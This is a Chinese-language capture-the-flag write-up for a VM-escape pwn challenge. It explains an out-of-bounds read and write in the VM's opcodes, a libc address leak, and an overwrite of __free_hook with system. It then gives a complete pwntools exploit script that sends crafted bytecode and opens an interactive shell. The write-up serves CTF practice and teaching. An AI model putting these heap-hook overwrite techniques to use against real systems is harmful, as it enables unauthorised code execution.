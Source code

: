 # EscapeVm

不得不说这题很有意思，国赛的时候一堆的堆题，这题让人焕然一新，给出题人点赞。原先也解过类似的题目，但是我知道自己的逆向能力不太好，要是解的话肯定要花非常非常久，于是当时就没去看这题了。不得不说pizza真的tql

题目环境是Ubuntu16.04,libc是2.23的

题目的

```c
	case 6:                                 // oob read
          v12 = (v22 >> 9) & 7;
          v13 = &reg->r0 + v12;
          *v13 = read_mem(
                   (*((unsigned __int16 *)&reg->r0 + ((v22 >> 6) & 7)) << 16)
                 + *((unsigned __int16 *)&reg->r0 + ((v22 >> 3) & 7)));
          update_eflag(v12);
          break;
        case 7:                                 // oob write
          sign_extend(v22 & 0x3F, 6);
          mem_write(
            (*((unsigned __int16 *)&reg->r0 + ((v22 >> 6) & 7)) << 16)
          + *((unsigned __int16 *)&reg->r0 + ((v22 >> 3) & 7)),
            *(&reg->r0 + ((v22 >> 9) & 7)));
          break;
```

存在越界读和写，然后因为申请的memory是在libc的上方，且和libc的偏移不变，所以可以通过越界读泄露libc地址，然后在越界写__free_hook为system的地址，然后退出的时候就能getshell，需要注意的是这个vm是大端的，所以要转一下字节序

```python
from pwn import *


def main(host,port=9017):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./escapevm")
		# p = process("./",env={"LD_PRELOAD":"./libc.so.6"})
		# gdb.attach(p,"b *0x56555000+0x001322")
	p.recvuntil("Input: ")
	p.send("\x00\x00")
	#leak stdout
	#r1 = 0xe
	payload = "b/nis/\x00h"+"\x00"*(0x6000-8)
	payload += "\x22\x80"
	#r2 = 0xa6fa
	payload += "\x24\x80"
	#r3 = stdout & 0xffff
	payload += "\x66\x50"
	#r4 = (stdout & 0xffff0000)>>16
	payload += "\x24\x7f"
	payload += "\x68\x50"
	#r2 = 0xa754
	payload += "\x24\x7e"
	#r5 = 0x17
	payload += "\x2a\x7e"
	#r6 = 0x8040
	payload += "\x2c\x7e"
	#r4 += r5
	payload += "\x19\x05"
	#r3 += r6
	payload += "\x16\xc6"

	#write free_hook
	payload += "\x76\x50"
	#r2 = 0xa755
	payload += "\x24\x7b"
	payload += "\x78\x50"
	payload += "\xf0\x26"
	payload = payload.ljust(0x6100,"\x00")
	payload += p16(0x0)+"\x00\x0e"+"\xa6\xfa"+"\xa6\xfb"
	payload += "\xac\x54"+"\xff\xe8"+"\x80\x40"+"\xac\x55"
	p.send(payload)
	
	p.interactive()
	
if __name__ == "__main__":
	
	main(args['REMOTE'])
```

参考链接： 

[https://xz.aliyun.com/t/5842](https://xz.aliyun.com/t/5842)

[https://justinmeiners.github.io/lc3-vm/](https://justinmeiners.github.io/lc3-vm/)
